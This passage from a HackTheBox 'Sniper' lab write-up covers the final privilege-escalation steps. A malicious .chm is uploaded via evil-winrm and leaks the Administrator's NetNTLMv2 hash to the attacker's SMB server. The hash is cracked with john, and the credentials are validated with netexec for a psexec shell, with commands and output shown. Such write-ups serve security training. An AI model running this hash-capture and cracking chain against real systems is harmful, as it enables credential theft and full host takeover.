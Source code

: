 After that, transfer the file to the `C:\Docs` location with the evil-winrm `upload` feature.

~~~powershell
*Evil-WinRM* PS C:\Docs> upload ./doc.chm
                                        
Info: Uploading ./doc.chm to C:\Docs\doc.chm
                                        
Data: 17928 bytes of 17928 bytes copied
                                        
Info: Upload successful!
~~~

And wait for the Administrator to open it.

I didn't receive the shell, but I got the request from the Administrator to my SMB server, leaking his NetNTLMv2 hash, which I could try cracking:

![](@assets/HackTheBox/Sniper/11.png)

~~~bash
❯ john -w:/usr/share/seclists/rockyou.txt hash
Warning: detected hash type "netntlmv2", but the string is also recognized as "ntlmv2-opencl"
Use the "--format=ntlmv2-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
butterfly!#1     (Administrator)
1g 0:00:00:06 DONE (2024-01-01 22:26) 0.1620g/s 316659p/s 316659c/s 316659C/s byrd78..burlfire
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
~~~

Checking it with `netexec` I get **Pwn3d!** so I can use `psexec.py` to get a shell as Administrator.

~~~bash
❯ nxc smb 10.10.10.151 -u administrator -p 'butterfly!#1'
Using virtualenv: /usr/share/netexec/virtualenvs/netexec-PWU1S8Zj-py3.11
SMB         10.10.10.151    445    SNIPER           [*] Windows 10.0 Build 17763 x64 (name:SNIPER) (domain:Sniper) (signing:False) (SMBv1:False)
SMB         10.10.10.151    445    SNIPER           [+] Sniper\administrator:butterfly!#1 (Pwn3d!)
~~~

![](@assets/HackTheBox/Sniper/12.png)

Happy Hacking!
